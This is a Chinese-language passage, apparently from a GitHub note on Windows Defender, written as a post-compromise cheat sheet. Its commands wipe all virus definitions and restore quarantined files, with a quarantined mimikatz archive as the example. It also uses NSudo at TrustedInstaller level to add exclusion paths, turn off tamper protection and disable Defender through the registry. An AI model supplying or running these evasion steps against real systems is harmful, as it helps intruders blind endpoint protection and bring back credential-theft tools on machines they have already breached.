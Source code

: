 ### 清空病毒库规则

删除 Windows Defender 中的所有病毒定义，并在完成后等待 1 秒：

```console
PS C:\Windows\system32> # Remove Defender Definitions
PS C:\Windows\system32> & 'C:\Program Files\Windows Defender\MpCmdRun.exe' -RemoveDefinitions -All; Start-Sleep -Seconds 1

Service Version: 4.18.23070.1004
Engine Version: 1.1.23070.1005
AntiSpyware Signature Version: 1.395.661.0
AntiVirus Signature Version: 1.395.661.0

Starting engine and signature rollback to none...
Done!
PS C:\Windows\system32>
```

> 注：该操作并不会关闭 Windows Defender

### 恢复被隔离的文件

查看被隔离的文件列表：

```
MpCmdRun -Restore -ListAll
```

恢复指定名称的文件至原目录：

```
MpCmdRun -Restore -FilePath C:\temp\mimikatz_trunk.zip
```

恢复所有文件至原目录：

```
MpCmdRun -Restore -All
```

查看指定路径是否位于排除列表中：

```
MpCmdRun -CheckExclusion -path C:\temp
```

## 管理员权限操作技巧

在已经有 Administratior 权限的情况下，可使用 [NSudo - 系统管理工具包](https://github.com/M2TeamArchived/NSudo/blob/master/Readme.zh-CN.md) 获取 TrustedInstaller 权限来执行命令：

```
# 添加 Windows Defender 排除项
NSudoLG.exe -U:T cmd /c "reg add "HKLM\SOFTWARE\Microsoft\Windows Defender\Exclusions\Paths" /v "c:\temp" /d 0 /t REG_DWORD /f"
# 关闭 Windows Defender 篡改保护
NSudoLG.exe -U:T cmd /c "reg add "HKLM\SOFTWARE\Microsoft\Windows Defender\Features" /v "TamperProtection" /d 4 /t REG_DWORD /f"
# 关闭 Windows Defender
NSudoLG.exe -U:T cmd /c "reg add "HKLM\SOFTWARE\Microsoft\Windows Defender" /v DisableAntiSpyware /t reg_dword /d 1 /f"
# 恢复 Windows Defender
NSudoLG.exe -U:T cmd /c "reg add "HKLM\SOFTWARE\Microsoft\Windows Defender" /v DisableAntiSpyware /t reg_dword /d 0 /f"
```
